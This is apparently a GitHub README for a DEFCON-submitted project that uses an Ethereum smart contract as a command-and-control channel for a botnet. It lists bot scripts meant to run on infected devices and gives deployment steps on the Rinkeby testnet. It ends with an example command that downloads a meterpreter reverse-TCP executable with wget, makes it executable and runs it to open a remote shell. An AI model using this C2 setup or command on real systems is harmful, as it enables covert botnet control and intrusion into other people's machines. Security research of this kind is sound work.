 # DAPPin that A$$ | A Blockchain Enabled C2 Solution


A C2 solution that lives in the blockchain as a DAPP.

Core Contents:
* [SpectralCommandRelay.sol](SpectralCommandRelay.sol): Smart Contract that can be deployed to the blockchain to act as a C2 channel
* [bot_deployer.py](bot_deployer.py): Script that generates & manages a local botnet
* [bot_minimal.py](bot_minimal.py): An incredibly simple endpoint for our C2 blockchain solution to be run on infected devices
* [bot.py](bot.py): Template for a more advanced endpoint for our C2 blockchain solution to be run on infected devices

Demo Contents:
* [SCR_Demo_Meter.rc](SCR_Demo_Meter.rc): MSFConsole init script used in our local botnet demo
* [cleanup.sh](cleanup.sh): Script to cleanup any lingering meterpreter sessions after our demo

Presentation Contents
* [DAPPin_that_A$$_DEFCON_Submission_BlockchainC2.pptx](DAPPin_that_A$$_DEFCON_Submission_BlockchainC2.pptx): The powerpoint we sent to the DEFCON Talks Panel



# How to Play

* Get setup with a web3 wallet, the [Metamask](https://chrome.google.com/webstore/detail/metamask/nkbihfbeogaeaoehlefnkodbefgpgknn) chrome plugin is pretty quick and straight forward
* Grab [SpectralCommandRelay.sol](SpectralCommandRelay.sol) and paste it into [https://remix.ethereum.org/](https://remix.ethereum.org/).
* Compile our .sol script
* Switch your web3 provider to "Injected Web3" and set your network to the "Rinkeby" testchain.
* Either deploy an instance of the relay or "Load at address" 0x69429FB223b3BA3D5823B980E590bF857a680c13
* Grab some [scratch on rinkeby](https://faucet.rinkeby.io/) and start sending commands

An Example command that installs and runs a meterpreter shell on an infected device that is running our [bot_minimal.py](bot_minimal.py) script
```
0~wget https://github.com/Cooperw/meterpreter_executables/raw/main/linux_x64_meterpreter_reverse_tcp_local_4444.elf; chmod +x linux_x64_meterpreter_reverse_tcp_local_4444.elf; ./linux_x64_meterpreter_reverse_tcp_local_4444.elf
```
